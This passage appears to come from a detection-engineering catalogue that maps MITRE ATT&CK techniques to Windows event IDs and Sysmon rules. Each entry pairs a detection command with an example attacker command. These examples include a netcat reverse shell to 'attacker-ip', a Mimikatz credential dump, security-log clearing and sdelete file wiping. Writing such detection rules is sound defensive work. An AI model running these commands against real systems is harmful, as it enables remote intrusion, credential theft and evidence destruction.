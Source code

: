### **Command and Control:**
    
**ID:** 006
**MITRE Tactic & Techniques:** Command and Control | Commonly Used Port [T1043]
**Event ID & Code:** 3 | NETWORK_CONNECTION
**Status Code:** N/A
**Sysmon Rule ID:** 106
**Commands and Code:** `netstat -an | findstr "443"`
**Description:** Unusual network connection on commonly used port detected.
**Example Offensive Codes and Commands:** `nc -e cmd.exe attacker-ip 443`

### **Credential Dumping:**
    
**ID:** 007
 **MITRE Tactic & Techniques:** Credential Access | Credential Dumping [T1003]
**Event ID & Code:** 1102 | LOG_CLEAR
**Status Code:** N/A
**Sysmon Rule ID:** 107
**Commands and Code:** `wevtutil cl Security`
**Description:** Security log cleared possibly to hide credential dumping.
**Example Offensive Codes and Commands:** `mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"`
### **Domain Trust Discovery:**
    
**ID:** 008
**MITRE Tactic & Techniques:** Discovery | Domain Trust Discovery [T1482]
**Event ID & Code:** 4648 | EXPLICIT_CREDENTIAL_LOGON
**Status Code:** N/A
**Sysmon Rule ID:** 108
**Commands and Code:** `nltest /domain_trusts`
**Description:** Explicit credential logon to discover domain trusts.
Example Offensive Codes and Commands:** `nltest /dclist:domain`


### **Network Scanning:**
    
**ID:** 009
**MITRE Tactic & Techniques:** Discovery | Network Service Scanning [T1046]
**Event ID & Code:** 3 | NETWORK_CONNECTION
**Status Code:** N/A
**Sysmon Rule ID:** 109
**Commands and Code:** `netstat -an | findstr "SYN_SENT"`
**Description:** Network scanning activity detected through unusual SYN_SENT statuses.
**Example Offensive Codes and Commands:** `nmap -sS target-ip`

### **File Deletion:**
    

**ID:** 010
**MITRE Tactic & Techniques:** Defense Evasion | Indicator Removal on Host [T1070.004]
Event ID & Code:** 4663 | FILE_DELETED
Status Code:** N/A
**Sysmon Rule ID:** 110
Commands and Code:** `del /F /Q malicious-file.exe`
Description:** Deletion of files to evade detection or remove evidence.
Example Offensive Codes and Commands:** `sdelete -p 7 malicious-file.exe`
